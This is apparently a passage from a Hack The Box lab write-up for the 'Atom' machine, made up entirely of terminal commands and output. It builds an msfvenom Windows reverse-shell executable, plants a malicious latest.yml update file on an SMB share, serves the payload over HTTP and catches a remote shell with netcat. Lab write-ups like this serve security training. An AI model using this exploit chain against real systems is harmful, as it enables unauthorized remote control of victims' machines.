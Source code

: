 The equivalent bash commands are:

```bash
┌──(mac㉿kali)-[~/Documents/HTB/atom/smb]
└─$ msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.39 LPORT=443 -f exe -o "h'eed.exe"
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of exe file: 73802 bytes
Saved as: h'eed.exe
┌──(mac㉿kali)-[~/Documents/HTB/atom/smb]
└─$ shasum -a 512 "h'eed.exe" | cut -d " " -f1 | xxd -r -p | base64
8XliFRF177w/k3OL25064XatMPUicDT+DVuiKZYQJtYeGKqOKLDGrFyu90N+xfCm69y9bCPdulsj
xR/+7HjzbA==
┌──(mac㉿kali)-[~/Documents/HTB/atom/smb]
└─$ nano latest.yml 

...[input the yaml here]...

┌──(mac㉿kali)-[~/Documents/HTB/atom/smb]
└─$ smbclient //10.10.10.237/Software_Updates
Enter WORKGROUP\mac's password: 
Try "help" to get a list of possible commands.
smb: \> cd client1
smb: \client1\> put latest.yml 
putting file latest.yml as \client1\latest.yml (2.4 kb/s) (average 2.4 kb/s)

...[python server]...

┌──(mac㉿kali)-[~/Documents/HTB/atom/smb]
└─$ sudo python3 -m http.server 80
[sudo] password for mac: 
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.237 - - [02/Jun/2021 20:36:07] code 404, message File not found
10.10.10.237 - - [02/Jun/2021 20:36:07] "GET /h'eed.exe.blockmap HTTP/1.1" 404 -
10.10.10.237 - - [02/Jun/2021 20:36:07] "GET /h%27eed.exe HTTP/1.1" 200 -

...[netcat listener]...

┌──(mac㉿kali)-[~/Documents/HTB/atom]
└─$ sudo nc -lnvp 443
[sudo] password for mac: 
listening on [any] 443 ...
connect to [10.10.14.39] from (UNKNOWN) [10.10.10.237] 52783
Microsoft Windows [Version 10.0.19042.906]
(c) Microsoft Corporation. All rights reserved.

C:\WINDOWS\system32>


```